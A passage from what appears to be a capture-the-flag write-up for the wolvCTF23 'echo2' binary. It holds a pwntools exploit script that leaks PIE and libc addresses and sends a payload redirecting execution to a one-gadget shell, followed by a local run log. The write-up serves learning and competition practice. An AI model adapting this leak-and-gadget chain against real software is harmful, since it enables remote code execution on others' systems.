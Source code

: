 ```
target.send(payload)

print(target.recvuntil(b'Echo2: '))

print(target.recv(280))
leak = target.recv(6)
print(leak)
main = u64(leak + b'\x00' * 2) - 5
print(hex(main))
pie_base = main - elf.symbols['main']

payload2 = padding
payload2 += p64(pie_base + elf.symbols['puts'])
payload2 += p64(pie_base + elf.symbols['echo'])
target.sendline(str(len(payload2)+1))
target.send(payload2)

print(target.recvuntil(b'Echo2: '))
print(target.recv(287))
leak = (target.recv(6))

funlockfile = (u64(leak+b'\x00' * 2))
libc_base = funlockfile - libc.symbols['funlockfile']
execve = libc_base + libc.symbols['execve']
print(hex(execve))
onegadget = libc_base + 0xebcf5

payload3 = b'b' * (279 - 8) + p64(pie_base + elf.bss() + 0x78)
payload3 += p64(onegadget)
target.sendline(str(len(payload3)+1))
target.send(payload3)

target.interactive()
```
And here is what that looks like when run:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/wolvCTF23$ python3 echo2_writeup.py NOPTRACE
[+] Starting local process './echo2': pid 21569
[!] Skipping debug attach since context.noptrace==True
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/wolvCTF23/echo2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/wolvCTF23/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'Welcome to Echo2\n'
echo2_writeup.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(len(payload)+1))
b'Echo2: '
b'\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
b'L\xb2N\xea\xdeU'
0x55deea4eb247
```